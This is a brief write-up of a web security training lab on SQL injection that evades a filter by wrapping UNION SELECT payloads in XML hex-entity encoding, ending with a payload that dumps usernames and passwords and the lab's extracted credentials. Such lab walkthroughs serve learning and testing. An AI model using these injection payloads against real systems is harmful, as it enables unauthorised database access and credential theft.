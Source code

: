 # Lab: SQL injection with filter bypass via XML encoding

End Goal: Exploit sqli to retrieve admin creds

Analysis:

1- detect the vulneraber parameter

`<@hex_entities>1 UNION SELECT 'a' <@/hex_entities></storeId>`

2- number of columns  =  2
since union select null , null returns nothing

3- detec the datatype
`<@hex_entities>1 UNION SELECT 'aa' <@/hex_entities>`
-> compatible with string values

4- retrive the creds

`<@hex_entities>1 UNION SELECT username || '~' || password  from users <@/hex_entities>`
->

wiener~i5gp7hecicjwwpc3be66

administrator~vopkkisl1uqx72b2byth

681 units

carlos~09j9a5m9shr6x5ymz72u
